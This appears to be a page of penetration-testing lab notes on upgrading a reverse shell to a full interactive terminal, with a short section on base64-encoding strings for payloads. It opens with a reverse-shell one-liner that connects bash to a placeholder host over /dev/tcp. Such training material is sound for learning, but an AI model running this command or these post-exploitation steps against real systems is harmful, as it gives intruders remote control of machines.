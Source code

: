 # Reverse Shells
- After Getting reverse shell (i.e. `netcat & bash -i >& /dev/tcp/1.2.3.4/4321 0>&1`)

## Upgrading
You should now have a reverse shell to the target machine, allowing you to run commands. However, if you've ever used SSH, you may notice that the functionality of this reverse shell is not exactly the same as an SSH connection. It is worse:

Doing `CTRL+C` drops the connection.
SSH doesn't work.
Text editors like vim won't work.
This happens for two reasons:

`CTRL+C` is sent to netcat, not over the network.
A tty has not been assigned to the shell.
Therefore, it is a good idea to upgrade your reverse shell to eliminate these two problems.

Firstly, you will get a `tty`. You can find out the current tty by using the command `tty`. If you run the command in the reverse shell, you will get the reply not a tty. An easy and frequently available way to get a tty in Linux is to use Python. Run the following command in the reverse shell:

`python -c 'import pty; pty.spawn("/bin/bash")'`

The command simply runs python code to spawn a new Bash instance with a tty.

After running the command, the output of tty should now be /dev/pts/NUM, where NUM is a number.

Next, you will improve the reverse shell so that CTRL+C and text editors start working properly.

To do this, type the following into the reverse shell terminal:
```
python -c 'import pty; pty.spawn("/bin/bash")' # - The command simply runs python code to spawn a new Bash instance with a tty.
CTRL+Z         # The combination of two keys, "ctrl" and "z", to background the process.
stty raw -echo # Input (such as CTRL+C) is not processed, just sent through, and not echoed back to you.
fg             # Foreground the process. Note - due to the previous command, when you type this, then the characters will not be echoed back to you.
reset          # Reset the terminal.
```
Do not be surprised if the terminal's indentation or output temporarily becomes weird while you do these steps. This is normal. If it asks you for the terminal type upon resetting, type xterm.

Type in the command reveal-answer to reveal the answer that lets you complete this objective. Note that it won't work if you have not upgraded your shell.


## Base64 and echo
`echo -n 'stringtoEncode' | base64 -w0`

By default, echo appends a newline to the end of a string. The `-n` ensures that the string stringToEncode is encoded, and not stringToEncode\n. Not adding the `-n` will usually not cause any problems with payloads, but it's important to keep such things in mind, as it does change the encoded result slightly.
